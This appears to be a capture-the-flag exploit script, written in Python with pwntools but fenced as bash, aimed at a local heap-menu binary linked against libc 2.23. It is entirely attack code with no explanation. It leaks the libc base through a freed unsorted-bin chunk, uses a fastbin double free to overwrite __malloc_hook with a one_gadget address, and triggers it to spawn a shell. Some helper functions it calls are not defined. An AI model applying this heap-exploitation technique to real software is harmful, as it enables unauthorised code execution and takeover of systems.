 ```bash

p=process("./pwn")
libc = ELF('./libc-2.23.so')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

add_idx = 1
delete_idx = 3
show_idx = 2


def choice(cho):
    sla('Your choice:',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('Index: ',idx)
    sla('Size: ',size)
    sa('Content: ',content)

def delete(idx):
    choice(delete_idx)
    sla('Index: ',idx)

def show(idx):
    choice(show_idx)
    sla('Index: ',idx)

add(0,0x80,'aaaaaaaa')
add(1,0x80,'aaaaaaaa')
delete(0)
show(0)
#duan()
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x3c4b78
leak('libc_base ',libc_base)

malloc_hook = libc_base + libc.sym['__malloc_hook']
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
ogs=[0x4527a,0xf03a4,0xf1247]
og=ogs[1]+libc_base

add(2,0x68,'aaaaaaaa')
add(3,0x68,'aaaaaaaa')
add(4,0x68,'aaaaaaaa')
delete(2)
delete(3)
delete(2)

add(5,0x68,p64(malloc_hook-0x23))
add(6,0x68,'/bin/sh\x00')
add(7,0x68,'aaaaaaaa')
add(8,0x68,'a'*0x13+p64(og))

#duan()
delete(3)
delete(3)

#duan()
```